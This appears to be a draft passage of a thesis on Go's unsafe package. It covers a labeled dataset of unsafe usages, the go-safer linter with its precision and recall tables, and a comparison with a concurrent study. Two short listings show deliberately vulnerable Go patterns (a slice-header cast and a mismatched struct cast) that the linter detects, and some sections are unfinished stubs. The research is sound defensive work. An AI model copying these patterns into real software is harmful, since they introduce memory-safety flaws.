    
\includegraphics[width=\textwidth]{assets/figures/chapter4/usage-labels.pdf}
    \caption{Labeled data set usage classes}
    \label{fig:usage-labels}
\end{figure}


\begin{figure}[ht!]
    
\includegraphics[width=\textwidth]{assets/figures/chapter4/purpose-labels.pdf}
    \caption{Labeled data set purpose classes}
    \label{fig:purpose-labels}
\end{figure}


Figure~\ref{fig:purpose-labels} shows the possible class labels in the purpose dimension.
The \textit{efficiency} class represents cases where \unsafe{} is used only to improve time or
space efficiency of the code.
Usages in this class could be rewritten to avoid \unsafe{}.
The \textit{serialization} class includes (un)marshaling and (de)serialization operations, like in-place casts between
complex types and bytes.
\textit{Generics} is applied where \unsafe{} is used to build functionality that would be implemented using generics if
they were available in current versions of Go.
As of the current release plan, there is no support for generics in Go without additional libraries up until release
\checkNum{2.0}.
The \textit{avoid garbage collection} class contains usages to tell the Go compiler to keep a value in memory while it
is used, for example, when calling a function written in assembly.
\textit{Atomic operations} is a class of usages of the atomic \acrshort{API}, which requires \unsafe{} for some of its
functions.
The \textit{foreign function interface} (\acrshort{FFI}) class includes all cases of interoperability with C code (CGo),
as well as calls to functions that receive their parameters as \unsafe{} pointers.
\textit{Hide from escape analysis} contains instances where \unsafe{} is used to deliberately exclude a value from being
seen by the \acrshort{EA} algorithm.
The \textit{memory layout control} class represents code used for low-level memory management.
\textit{Types} samples are used by the standard library for low-level implementation of the Go type system.
\textit{Reflect} includes instances of type reflection, as well as re-implementations of types contained in the regular
Go \textit{reflect} package, for example, to use \textit{unsafe.Pointer} instead of \textit{uintptr} for slice headers.
Lastly, \textit{unused} is a class for unused occurrences again.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Purpose of \textit{Unsafe} in Practice (\ref{rq:purpose})}\label{subsec:go-geiger:qualitative-evaluation:purpose}

In this section, the novel labeled data set of \unsafe{} usages is used to answer~\ref{rq:purpose} about the purpose of
\unsafe{} in Go applications.
Table~\ref{tbl:dataset-classes} presents the number of samples for each class.
The columns denote the dimension of purpose, while the rows show the operation type dimension.
Columns are divided into separate counts for the \textit{app} and \textit{std} groups of samples.

\begin{table*}[htp!]
    \centering
    \caption[Labeled unsafe.Pointer usages in application code (non standard library) and standard library samples]
        {Labeled unsafe.Pointer usages in application code (non standard library) and standard library samples~\newline \tiny ~\newline \footnotesize
        \underline{eff}: efficiency, \underline{ser}: (de)serialization, \underline{gen}: generics,
        \underline{no GC}: avoid garbage collection, \underline{atomic}: atomic operations,
        \underline{FFI}: foreign function interface, \underline{HE}: hide from escape analysis, \underline{layout}: memory layout control,
        \underline{types}: Go type system,
        \underline{reflect}: type reflection, \underline{unused}: declared but unused \tiny ~\newline}
    \label{tbl:dataset-classes}
    \begin{adjustbox}{max width=\textwidth}
    
    %% do not paste from notebook, local changes done!
\begin{tabular}{r|cc|cc|cc|cc|cc|cc|cc|cc|cc|cc|cc|cc}
                    & \multicolumn{2}{c|}{\textbf{eff}} & \multicolumn{2}{c|}{\textbf{ser}} & \multicolumn{2}{c|}{\textbf{gen}} & \multicolumn{2}{c|}{\textbf{no GC}} & \multicolumn{2}{c|}{\textbf{atomic}} & \multicolumn{2}{c|}{\textbf{FFI}} & \multicolumn{2}{c|}{\textbf{HE}} & \multicolumn{2}{c|}{\textbf{layout}} & \multicolumn{2}{c|}{\textbf{types}} & \multicolumn{2}{c|}{\textbf{reflect}} & \multicolumn{2}{c|}{\textbf{unused}} & \multicolumn{2}{c}{\textbf{Total}} \\ %\hline
                    &  \textbf{app} &  \textbf{std} &  \textbf{app} &  \textbf{std} &  \textbf{app} &  \textbf{std} &   \textbf{app} &  \textbf{std} &    \textbf{app} &  \textbf{std} &  \textbf{app} &  \textbf{std} &  \textbf{app} &  \textbf{std} &    \textbf{app} &  \textbf{std} &   \textbf{app} &  \textbf{std} &     \textbf{app} &  \textbf{std} &    \textbf{app} &  \textbf{std} &   \textbf{app} &  \textbf{std} \\ \hline
                    
                   % \textbf{cast} & 562 & 16 & 178 & 33 & 18 & & & & & & 24 & 6 && 2 & 3 & 13 & & 45 & 1 & & & & 786 & 115 \\
        \textbf{cast-struct} &  401 &    4 &   50 &    6 &    6 &      &       &      &        &      &    6 &    2 &      &    2 &        &    4 &       &   31 &         &      &        &      &   463 &   49 \\
\rowcolor{verylightgray}
         \textbf{cast-basic} &   90 &    2 &   29 &    3 &    1 &      &       &      &        &      &    1 &    3 &      &      &      2 &    7 &       &    1 &         &      &        &      &   123 &   16 \\
                    \textbf{cast-header} &   36 &    1 &    3 &      &    1 &      &       &      &        &      &      &      &      &      &        &      &       &    3 &         &      &        &      &    40 &    4 \\
\rowcolor{verylightgray}
                    \textbf{cast-bytes} &   22 &    1 &   81 &   11 &      &      &       &      &        &      &    1 &      &      &      &      1 &      &       &    1 &         &      &        &      &   105 &   13 \\
                    \textbf{cast-pointer} &   13 &    8 &   15 &   13 &   10 &      &       &      &        &      &   16 &    1 &      &      &        &    2 &       &    9 &       1 &      &        &      &    55 &   33 \\
\rowcolor{verylightgray}
      \textbf{memory-access} &    2 &    1 &    9 &      &      &      &       &      &        &      &      &    1 &      &      &      4 &    6 &       &    4 &         &      &        &      &    15 &   12 \\
 \textbf{pointer-arithmetic} &    7 &    2 &    6 &    1 &      &      &       &      &        &    1 &      &    3 &    1 &    2 &      3 &    8 &       &    9 &         &      &        &      &    17 &   26 \\
\rowcolor{verylightgray}
         \textbf{definition} &    4 &    1 &   23 &      &    2 &      &       &      &        &      &    4 &    5 &      &      &        &    9 &       &    8 &       6 &    3 &        &      &    39 &   26 \\
           \textbf{delegate} &    4 &      &   64 &      &    2 &      &       &      &     11 &    5 &   29 &   45 &      &    4 &        &   14 &       &    6 &         &    1 &        &      &   110 &   75 \\
\rowcolor{verylightgray}
            \textbf{syscall} &      &      &      &      &      &      &    17 &  138 &        &      &      &      &      &      &        &      &       &      &         &      &        &      &    17 &  138 \\
             \textbf{unused} &      &      &      &      &      &      &       &      &        &      &      &      &      &      &        &      &       &      &         &      &     16 &    8 &    16 &    8 \\ \hline
%\rowcolor{verylightgray}
                  \textbf{total} &  579 &   20 &  280 &   34 &   22 &    0 &    17 &  138 &     11 &    6 &   57 &   60 &    1 &    8 &     10 &   50 &     0 &   72 &       7 &    4 &     16 &    8 &  1000 &  400 \\
\end{tabular}

    \end{adjustbox}
        \vspace{-10pt}
\end{table*}

The data shows that efficiency is by far the most prevalent reason to use \unsafe{} in real-world Go application code.
While these usages make up about \checkNum{58\%} of the application code samples, they account for only about
\checkNum{5\%} of the standard library usages.
Within the \textit{efficiency} class, casting operations cover most of the usages with \checkNum{97\%} (\textit{app})
and \checkNum{80\%} (\textit{std}) of the samples.
Next, the second most important motivation for \unsafe{} code in the application class is performing serialization or
deserialization operations, including marshaling of structured data to interchangeable formats.
This accounts for \checkNum{28\%} of the \textit{app} usages.
The standard library shows a different most common usage, which is avoiding garbage collection with \checkNum{35\%}.
This purpose is only found in \checkNum{2\%} of the \textit{app} samples.
Next, the \textit{type} (\checkNum{18\%}), \textit{\acrshort{FFI}} (\checkNum{15\%}), and \textit{memory layout}
(\checkNum{13\%}) classes are common in the \textit{std} samples.
A common distribution is the \textit{hide from escape analysis} class, which is rare both in the \textit{app}
(\checkNum{0.1\%}) and \textit{std} (\checkNum{2\%}) groups.
The same is true for the \textit{reflection} class (\checkNum{1\%} in both sets).
There are also only few samples (\checkNum{2\%}) in the \textit{app} group that are used to implement generics
functionality.
Some of the findings in the \textit{serialization} class could however be achieved with generics as well, so the classes
overlap slightly.

In conclusion, it is evident that the most important reasons to use \unsafe{} in Go applications are increasing
efficiency through in-place conversions, and serialization with direct casts.
Interestingly, both of them are achievable without \unsafe{} as well, so the code could be rewritten to remove these
usages.
However, this could have performance drawbacks, because in-place conversions would not be possible then.

\begin{answerToRQ}[\ref{rq:purpose}]
    \checkNum{More than half} of the \unsafe{} usages in projects and 3rd party libraries are to improve efficiency via
    \unsafe{} casts.
    In the Go standard library, \checkNum{every third} use of \unsafe{} is to avoid garbage collection.
\end{answerToRQ}


%% ---------------------------------------------------------------------------------------------------------------------

\section{Summary}\label{sec:go-geiger:summary}

With \toolGeiger{}, this thesis contributes a tool to find and count \unsafe{} usages in Go packages, including their
dependencies.
Its design allows to distinguish usages by the context they appear in, which enables filtering and, thus, a focused
review of specific types such as function parameter declarations.
A study on \unsafe{} usage in \projsAnalyzed{} popular Go projects on \github{} revealed that while only about
\checkNum{a third} directly contain \unsafe{}, almost all of them import \unsafe{} code through their dependencies.

To study what operations are carried out using \unsafe{}, and for what purpose, a novel data set of
\numberLabeledCodeSnippets{} labeled code samples was presented.
It showed that the most common use cases are increasing efficiency by avoiding memory reallocation when converting
values between different types, serialization and marshaling, and control over the Go memory management system when
interacting with the foreign function interface (\acrshort{FFI}).

%% ---------------------------------------------------------------------------------------------------------------------

\chapter{\textit{go-safer}: Detecting Unsafe Misuses}\label{ch:go-safer}

Another major contribution of this thesis is the development of \toolSafer{}, a \toolVet{}-style, open-source linter
tool.
It can identify some of the unsafe code patterns described in Chapter~\ref{ch:unsafe-security-problems}.
This chapter describes the design and implementation of \toolSafer{}, as well as an evaluation of its effectiveness.

\begin{figure}[htp!]
    
\includegraphics[width=\textwidth]{assets/figures/chapter5/outline5.pdf}
    \caption{Role of Chapter 5 in the thesis outline}
    \label{fig:outline5}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\section{Design}\label{sec:go-safer:design}

\toolSafer{} is available on \github{}\footnote{\url{https://github.com/jlauinger/go-safer}}.

\begin{figure}[!t]
    \vspace{2mm}
    \centering
    
\includegraphics[width=0.48\textwidth]{gfx/figures/go-safer-architecture.pdf}
    %
\includegraphics[width=0.45\textwidth]{gfx/figures/go-safer-architecture.pdf}
    \caption{Architecture of \toolSA{} static code analysis tool}
    \label{fig:safer-architecture}
    %\vspace{-14pt}
\end{figure}


\begin{lstlisting}[language=Golang, float, label=lst:go-safer-sliceheader-pass, caption=First vulnerable code pattern detected by \toolSafer{}]
func unsafeFunction(s string) []byte {
    sH := (*reflect.StringHeader)(unsafe.Pointer(&s))
    bH := &reflect.SliceHeader{
        Data: sH.Data,
        Len:  sH.Len,
        Cap:  sH.Len,
    }
    return *(*[]byte)(unsafe.Pointer(bH))
}
\end{lstlisting}


\begin{lstlisting}[language=Golang, label=lst:go-safer-structcast-pass, caption=Second vulnerable code pattern detected by \toolSafer{}]
type A struct {
    x int
}
type B struct {
    y int64
}
func unsafeFunction(a A) B {
    return *(*B)(unsafe.Pointer(&a))
}
\end{lstlisting}


Usage: \textit{go-safer ./my/package}

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/images/chapter5/go-safer-screenshot.png}
    \caption{Usage example screenshot of \toolSafer{}}
    \label{fig:go-safer-screenshot}
    %\vspace{-14pt}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\section{Implementation}\label{sec:go-safer:implementation}

Go vet analysis pass infrastructure
Low-level details
Verification with tests


%% ---------------------------------------------------------------------------------------------------------------------

\section{Evaluation}\label{sec:go-safer:evaluation}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Labeled Usages}\label{subsec:go-safer:evaluation:labeled-usages}

Precision, Recall, calculated using manually labeled usages data set

\begin{table}[htp!]
    \centering
    \caption{Evaluation results for \toolSafer{} on the labeled data set of \unsafe{} usages}
    \label{tbl:gosafer-evaluation-dataset}
    \begin{tabular}{l||r|r|r|r||l|l|l|l}
        \textbf{Tool} & \textbf{TP} & \textbf{FP} & \textbf{TN} & \textbf{FN} & \textbf{Precision} & \textbf{Recall} & \textbf{Accuracy} & \textbf{F1-Score} \\
        \hline
        go-safer &   29   &    1   &   13   &    1   &   0.967       &  0.967     &    0.955     & 0.967  \\
        go vet   &    0   &    0   &   14   &   30   &   -           &  0         &    0.318     & 0      \\
        gosec    &   29   &   13   &    1   &    1   &   0.690       &  0.967     &    0.681     & 0.805  \\
    \end{tabular}
\end{table}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Case Studies}\label{subsec:go-safer:evaluation:case-studies}

Manual inspection of some projects, used to calculate precision / recall of go-safer

\begin{table}[htp!]
    \centering
    \caption[Evaluation results for \toolSafer{} on manually analyzed packages packages]
        {Evaluation results for \toolSafer{} on manually analyzed packages packages~\newline \tiny ~\newline \footnotesize
        Tools: \underline{a} \toolSafer{}, \underline{b} \toolVet{}, \underline{c} \toolGosec{} \tiny ~\newline}
    \label{tbl:go-safer-evaluation-packages}
    \begin{adjustbox}{max width=\textwidth}
        \begin{tabular}{l||rrr|rrr|rrr|rrr||lll|lll|lll|lll}
            \textbf{Package} & \multicolumn{3}{c|}{\textbf{TP}}                & \multicolumn{3}{c|}{\textbf{FP}}                   & \multicolumn{3}{c|}{\textbf{TN}}                    & \multicolumn{3}{c||}{\textbf{FN}}                  & \multicolumn{3}{c|}{\textbf{Precision}}  & \multicolumn{3}{c|}{\textbf{Recall}}    & \multicolumn{3}{c|}{\textbf{Accuracy}}           & \multicolumn{3}{c}{\textbf{F1-Score}}    \\
            {}               & \textit{a}            & \textit{b} & \textit{c} & \textit{a}             & \textit{b} & \textit{c}   & \textit{a}            & \textit{b}   & \textit{c}   & \textit{a}             & \textit{b}  & \textit{c}  & \textit{a}     & \textit{b} & \textit{c} & \textit{a}    & \textit{b} & \textit{c} & \textit{a}     & \textit{b}     & \textit{c}     & \textit{a}     & \textit{b} & \textit{c} \\
            \hline
            v1               & 0                     & 0          & 0          & 0                      & 0          & 676          & 677                   & 677          & 1            & 0                      & 0           & 0           & -              & -          & 0          & -             & -          & -          & 1              & 1              & 0.001          & -              & -          & -          \\
            \rowcolor{verylightgray}
            native           & 48                    & 0          & 0          & 9                      & 0          & 98           & 101                   & 110          & 12           & 0                      & 48          & 48          & 0.842          & -          & 0          & 1             & 0          & 0          & 0.943          & 0.696          & 0.076          & 0.914          & -          & -          \\
            socket           & 0                     & 0          & 0          & 0                      & 0          & 16           & 115                   & 115          & 99           & 0                      & 0           & 0           & -              & -          & 0          & -             & -          & -          & 1              & 1              & 0.861          & -              & -          & -          \\
            \rowcolor{verylightgray}
            ebpf             & 0                     & 0          & 0          & 1                      & 0          & 38           & 64                    & 65           & 27           & 0                      & 0           & 0           & 0              & -          & 0          & -             & -          & -          & 0.985          & 1              & 0.415          & -              & -          & -          \\
            label            & 0                     & 0          & 0          & 0                      & 0          & 7            & 8                     & 8            & 1            & 0                      & 0           & 0           & -              & -          & 0          & -             & -          & -          & 1              & 1              & 0.125          & -              & -          & -          \\
            \rowcolor{verylightgray}
            jlexer           & 1                     & 0          & 0          & 0                      & 0          & 2            & 4                     & 4            & 2            & 0                      & 1           & 1           & 1              & -          & 0          & 1             & 0          & 0          & 1              & 0.8            & 0.4            & 1              & -          & -          \\
            \hline
            \textbf{Total}   & \textbf{49}           & \textbf{0} & \textbf{0} & \textbf{10}            & \textbf{0} & \textbf{837} & \textbf{969}          & \textbf{979} & \textbf{142} & \textbf{0}             & \textbf{49} & \textbf{49} & \textbf{0.831} & \textbf{-} & \textbf{0} & \textbf{1}    & \textbf{0} & \textbf{0} & \textbf{0.990} & \textbf{0.952} & \textbf{0.138} & \textbf{0.907} & \textbf{-} & \textbf{-} \\
        \end{tabular}
    \end{adjustbox}
\end{table}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Comparison with Existing Tools}\label{subsec:go-safer:evaluation:linters-comparison}

Go vet / Gosec

%% ---------------------------------------------------------------------------------------------------------------------

\chapter{Related Work}\label{ch:related-work}

This chapter discusses related and concurrent work relevant to this thesis.
First, a similar, concurrent study on \unsafe{} code usages in the Go programming language is presented, replicated, and
compared in detail to this work.
Then, related studies and papers are discussed in groups identified by their general topic.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Concurrent Study on Unsafe Go}\label{sec:related-work:concurrent-study}

Costa et al. submitted a similar study to this work on usages of the \unsafe{} \acrshort{API} in open-source Go code to
the IEEE Transactions on Software Engineering journal.
At the time this thesis is written, their paper is not yet accepted, thus it is cited from ArXiV~\cite{costa2020}.
While I personally could not find substantial errors in the paper, it has not yet been peer-reviewed.
Since it is a very relevant concurrent work to this thesis, I nevertheless reproduced their empirical study and compared
it to the results of this thesis.

The authors present a study of \checkNum{2,438} popular Go projects which are downloaded on \checkNum{October 2nd, 2019}.
Their project selection was done by taking the top \checkNum{3,000} most-starred open-source projects on \github{},
filtering out archived, inactive, and young projects with less than \checkNum{10} commits.
Furthermore, they removed educational projects such as books or learning material, as well as projects that failed to
be downloaded for some reason.
Then, they counted the number of \unsafe{} usages in each project using a parser to generate the abstract syntax tree
(\acrshort{AST}).
They find that \checkNum{24\%} of the studied projects use \unsafe{} code.
In contrast, the study presented in this thesis in Chapter~\ref{ch:go-geiger} finds that \percentageUnsafeProjects{}
use \unsafe{}.
This difference is due to the different choice of projects, which was verified by comparing the set of analyzed projects
available through the published replication package\footnote{\url{https://zenodo.org/record/3871931}}.
While Costa et al. analyzed more than \checkNum{2,400} projects, I only analyzed \projsAnalyzed{}, indicating that
\unsafe{} usage is more prevalent in more popular projects.
Furthermore, a fundamental difference of this work to~\cite{costa2020} is that the study by Costa et al. did not look
at dependencies, instead they only analyzed the projects directly.
My analysis on the projects including their dependencies in contrast showed that
\percentageUnsafeTransitiveWithDependencies{} of the projects use \unsafe{} either directly or through some included
library.
To compare the study to~\cite{costa2020}, it is therefore necessary to focus on the \unsafe{} usages contained in the
top-level projects, which is done by taking into account only usages that are detected within the main project module
indicated by the \textit{go.mod} file in the root directory.
However, this can be inaccurate if there are multiple modules contained within the same project repository, because in
that case the study by Costa et al. would include code for that project that is seen as dependency in my study.
There are \checkNum{25} projects for which~\cite{costa2020} reports \unsafe{} usages, but my study does not, however
they are all included in the \percentageUnsafeTransitiveWithDependencies{} of projects for which my study indicates that
they use \unsafe{} code through their dependencies.
For this reason, I conclude that the difference in the fraction of projects using \unsafe{} is due to a different
definition of project and dependency code.

There are \checkNum{86} projects for which my study and~\cite{costa2020} reported different absolute numbers of
\unsafe{} usage sites, while the numbers matched exactly for all remaining projects.
To find the reason for the difference, I replicated the study to the best of my possibilities given that Costa et al.
did neither include the exact revisions of the projects under analysis nor their parsing tool to count the \unsafe{}
usages in their replication package.
Table~\ref{tbl:costa-counts-comparison} shows the top \checkNum{10} projects with highest difference, including their
respective absolute counts found in the studies and the reason for the difference.

\begin{table}[h]
    \centering
    \caption[Comparison of \unsafe{} usage counts Costa et al. and this work]%
    {Comparison of \unsafe{} usage counts in Costa et al. and this work~\newline \tiny ~\newline \footnotesize
    Reasons: \underline{a} change over time, \underline{b} multiple architecture, \underline{c} dependency vendoring,
    \underline{d} submodules \tiny ~\newline}
    \label{tbl:costa-counts-comparison}
    \begin{tabular}{l|r|r|r|l}
        \textbf{Project}       & \textbf{Count in~\cite{costa2020}} & \textbf{Count in this work} & \textbf{Difference} & \textbf{Reason} \\
        \hline
        jetstack/cert-manager  &                                140 &                         374 &               + 234 &  a              \\
        \rowcolor{verylightgray}
        kubernetes/kubernetes  &                              2,058 &                       1,885 &              -- 173 &  b              \\
        golang/mobile          &                                211 &                          93 &              -- 118 &  b              \\
        \rowcolor{verylightgray}
        TykTechnologies/tyk    &                                 79 &                         187 &               + 108 &  c              \\
        elastic/beats          &                                164 &                          70 &               -- 94 &  c              \\
        \rowcolor{verylightgray}
        golang/tools           &                                113 &                          44 &               -- 69 &  b              \\
        peterq/pan-light       &                                 64 &                           0 &               -- 64 &  d              \\
        \rowcolor{verylightgray}
        cilium/cilium          &                                290 &                         345 &               -- 55 &  c              \\
        go-delve/delve         &                                 72 &                          20 &               -- 52 &  b              \\
        \rowcolor{verylightgray}
        ethereum/go-ethereum   &                                 42 &                          91 &                + 49 &  c              \\
    \end{tabular}
\end{table}

For the \textit{jetstack/cert-manager} project, the difference is due to the changes in the code between
\checkNum{October 2019} and \checkNum{Mai 2020}, which was when the project data set for this thesis was collected.
This is indicated as \textit{Reason~a} in the table.
For \textit{peterq/pan-light}, there are multiple Go modules included in the project repository, so for this project
the difference is due to varying definitions of dependency code as described previously.
\textit{Reason~d} corresponds to this situation.
Finally, there are four projects that did not yet support the Go module system in \checkNum{October 2019} and included
vendored copies of their dependencies in the repository (\textit{Reason~c}), and four projects which contained separate
specific code for different architectures, which are not counted by \toolGeiger{} and thus not included in this work's
study (\textit{Reason~b}).
Therefore, the counts associated with \textit{Reason~b} are higher in~\cite{costa2020}.
The only significant methodical difference therefore is the different counting of code that is available separately for
different architectures, which is a limitation of the \toolGeiger{} tool.

By looking at \unsafe{} usage counts for each week since \checkNum{2015} in the history of \checkNum{270} projects
selected from the total projects data set, Costa et al. showed that while the share of packages containing \unsafe{}
code did not change significantly, the number of individual \unsafe{} usages increased over time.
The study by Costa et al. also includes a set of manually labeled purposes of \unsafe{} usages, however the authors
labeled one entire file from each project with a single label, while the labeled data set presented in this thesis is
built with a granularity of a label for a single line of code.
Comparing the labels was possible on only \checkNum{25} code samples that are included in both sets.
Furthermore, the data set presented in~\cite{costa2020} is incomplete at least in the version published as replication
package.
\checkNum{20} of the \checkNum{25} mutual code samples did not actually have a label in the data set
by~\cite{costa2020}.
The remaining \checkNum{five} matched reasonably well at least, as shown in Table~\ref{tbl:costa-labels-comparison}.

\begin{table}[htp!]
    \centering
    \caption{Comparison of \unsafe{} usage labels in Costa et al. and this work}
    \label{tbl:costa-labels-comparison}
    \begin{tabularx}{\textwidth}{X|l|l}
        \multicolumn{3}{l}{\footnotesize\textit{Source Code}} \\
        \textbf{Labels in~\cite{costa2020}} & \textbf{My labels}     & \textbf{Match} \\
        \hline
        \multicolumn{3}{l}{\footnotesize\textit{*(*uintptr)(unsafe.Pointer(uintptr(unsafe.Pointer(\&b[0])) + uintptr(i))) \^{}= kw}} \\
        Performance Optimization   & pointer-arithmetic / efficiency     & match  \\
        \hline
        \rowcolor{verylightgray}
        \multicolumn{3}{l}{\footnotesize\textit{return Pointer\{unsafe.Pointer(v.Pointer()), v.Type()\}}} \\
        \rowcolor{verylightgray}
        Reflect                    & cast-pointer / reflect              & match  \\
        \hline
        \multicolumn{3}{l}{\footnotesize\textit{raw := (*unix.InotifyEvent)(unsafe.Pointer(\&buf[offset]))}} \\
        System Call                & cast-struct / serialization         & mine more fine-grained \\
        \hline
        \rowcolor{verylightgray}
        \multicolumn{3}{l}{\footnotesize\textit{entryHdr := (*entryHdr)(unsafe.Pointer(\&entryHdrBuf[0]))}} \\
        \rowcolor{verylightgray}
        Convert from byte          & cast-bytes / efficiency             & match  \\
        \hline
        \multicolumn{3}{l}{\footnotesize\textit{if n := int(uintptr(unsafe.Pointer(\&b[0]))) \% wordSize; n != 0 \{}} \\
        Performance Optimization   & pointer-arithmetic / serialization  & mine more fine-grained \\
    \end{tabularx}
\end{table}

\checkNum{Three} of the labels were exact matches of the label provided by~\cite{costa2020} and one of the two labels
assigned to the sample in my data set presented in this thesis.
The second label is lost because~\cite{costa2020} only did a one-dimensional labelling.
For the remaining \checkNum{two} samples, the labels did not match, however my labels are more fine-grained with respect
to the specific line of code.
The labels assigned by~\cite{costa2020} are appropriate for their scope, which is the complete file containing the line
of code shown in the table.
Overall, the usage purposes identified by~\cite{costa2020} matched the ones identified in this thesis with most of them
being used for the foreign function interface (\acrshort{FFI}) and efficient type casting, and few of them to achieve
reflection and direct pointer manipulations.

Additional contributions of~\cite{costa2020} include a manual correlation of \unsafe{} usages to project domains, which
showed that networking projects are the biggest group, followed by development tools, container virtualization,
databases, and projects that offer bindings to other projects.
Bindings and networking projects include the most projects with heavy use of \unsafe{} (more than \checkNum{100} calls
in a project).


%% ---------------------------------------------------------------------------------------------------------------------

\section{Unsafe APIs Across Languages}\label{sec:related-work:unsafe-across-languages}

Rust \cite{evans2020, qin2020}, Java \cite{huang2019, mastrangelo2015, wickert2019}, WebAssembly, C++ \cite{alnaeli2017, larochelle2001}

Other empirical studies \cite{difranco2017, lu2013, chou2001, leesatapornwongsa2016, lauinger2017, jin2012, gunawi2014, gu2015}


%% ---------------------------------------------------------------------------------------------------------------------

\section{Other Go Vulnerabilities}\label{sec:related-work:other-go-vulnerabilities}

Concurrency, channels, escape analysis \cite{wang2020, sibiryov2017, tu2019, giunti2020, lange2017, zhou2017, dilley2019, hill2002, hannan1998, choi1999}


